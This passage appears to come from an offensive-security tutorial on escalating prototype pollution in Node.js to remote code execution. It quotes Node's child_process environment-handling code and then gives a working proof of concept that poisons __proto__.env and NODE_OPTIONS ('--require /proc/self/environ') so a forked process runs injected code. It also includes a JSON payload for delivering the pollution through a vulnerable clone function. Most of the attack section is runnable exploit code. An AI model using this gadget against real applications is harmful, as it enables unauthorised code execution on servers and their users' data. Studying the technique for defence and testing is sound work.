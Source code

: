 ```javascript
//See code in https://github.com/nodejs/node/blob/02aa8c22c26220e16616a88370d111c0229efe5e/lib/child_process.js#L638-L686

var env = options.env || process.env;
var envPairs = [];
[...]
let envKeys = [];
// Prototype values are intentionally included.
for (const key in env) {
  ArrayPrototypePush(envKeys, key);
}
[...]
for (const key of envKeys) {
  const value = env[key];
  if (value !== undefined) {
    ArrayPrototypePush(envPairs, `${key}=${value}`); // <-- Pollution
  }
}
```

Check that code you can see it's possible en **poison `envPairs`** just by **polluting** the **attribute `.env`.**

<br>

### **Poisoning `__proto__`**

> [!WARNING]
> Note that due to how the **`normalizeSpawnArguments`** function from the **`child_process`** library of node works, when something is called in order to **set a new env variable** for the process you just need to **pollute anything**.\
> For example, if you do `__proto__.avar="valuevar"` the process will be spawned with a var called `avar` with value `valuevar`.
>
> However, in order for the **env variable to be the first one** you need to **pollute** the **`.env` attribute** and (only in some methods) that var will be the **first one** (allowing the attack).
>
> That's why **`NODE_OPTIONS`** is **not inside `.env`** in the following attack.

```javascript
const { execSync, fork } = require("child_process");

// Manual Pollution
b = {};
b.__proto__.env = {
  EVIL: "console.log(require('child_process').execSync('touch /tmp/pp2rce').toString())//",
};
b.__proto__.NODE_OPTIONS = "--require /proc/self/environ";

// Trigger gadget
var proc = fork("./a_file.js");
// This should create the file /tmp/pp2rec

// Abusing the vulnerable code
USERINPUT = JSON.parse(
  '{"__proto__": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce\\").toString())//"}}}'
);

clone(USERINPUT);

var proc = fork("a_file.js");
// This should create the file /tmp/pp2rec
```
